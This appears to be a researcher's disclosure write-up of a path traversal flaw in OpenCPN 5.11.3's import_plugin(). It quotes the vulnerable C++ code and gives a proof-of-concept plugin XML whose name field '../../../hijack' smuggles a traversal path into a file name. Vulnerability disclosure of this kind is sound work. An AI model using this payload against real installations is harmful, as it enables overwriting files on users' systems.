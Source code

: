   title: "OpenCPN File overwrite - Path traversal",
  date: "2025-07-14 ~ 2025-07-25",
  excerpt: "OpenCPN File Overwrite – Path Traversal Vulnerability in import_plugin",
  category: "보안",
  imageUrl: "/images/opencpn-command-injection.png",
  award: "",
  hidden: true,
};

[[KOR] OpenCPN File overwrite - import_plugin에서의 Path traversal 취약점](./opencpn-path-traversal-kor)  

**Vulnerability Title:** OpenCPN File overwrite - Path traversal   
**Vulnerability Summary:** File overwrite due to creation of a `.meta` file without path validation    
**Vendor:** GitHub Open Source Project    
**Software Name:** OpenCPN     
**Version:** OpenCPN 5.11.3   
**Software Type:** ECS (Electronic Chart System)    
**Attack Type:** Path Traversal   
**Impact:** File overwrite with process privileges  
**Vulnerable File Name:** `Console.cpp`  
**Vulnerable Function Name:** `import_plugin()`  
**Vulnerable Parameter:** `metadata_path = PluginHandler::ImportedMetadataPath(metadata.name);`  
**Vulnerable Environment:** Ubuntu 24.04   

**Proof of Concept:**  
While analyzing console.cpp inside opencpn/cli , in import_plugin() : 
```cpp
void import_plugin(const std::string& tarball_path) {
  auto handler = PluginHandler::GetInstance();
  PluginMetadata metadata;
  bool ok = handler->ExtractMetadata(tarball_path, metadata);
  if (!ok) {
    std::cerr << "Cannot extract metadata (malformed tarball?)\n";
    exit(2);
  }
  if (!PluginHandler::IsCompatible(metadata)) {
    std::cerr << "Incompatible plugin detected\n";
    exit(2)
  }
  ok = handler->InstallPlugin(metadata, tarball_path);
  if (!ok) {
    std::cerr << "Error extracting import plugin tarball.\n";
    exit(2);
  }
  metadata.is_imported = true;
  auto metadata_path = PluginHandler::ImportedMetadataPath(metadata.name);
  std::ofstream file(metadata_path);
  file << metadata.to_string();
  if (!file.good()) {
    std::cerr << "Error saving metadata file: " << metadata_path << " for imported plugin: " << metadata.name;
    exit(2);
  }
  exit(0);
}
```
After confirming that there is no validation of the
`metadata.name` path, an XML file was created for testing:  
```xml
 <?xml version="1.0" encoding="UTF-8"?>
 <plugin version="1">
 <name>../../../hijack</name>
 <version>0.0.1</version>
 <release>0</release>
 <summary>PoC</summary>
 <description>Path Traversal PoC</description>
 <target>ubuntu-x86_64</target>
 <build-target>ubuntu</build-target>
 <build-gtk>gtk3</build-gtk>
 <target-version>24.04</target-version>
 <target-arch>x86_64</target-arch>
 <api-version>1.18</api-version>
 <tarball-url>file:///nope</tarball-url>
 </plugin>
```
Inserted .. and / into `<name>` to attempt path traversal:  

**Additional Materials (video, report attachments):**  
<Video src="/videos/opencpn-path-traversal.mp4"/>    
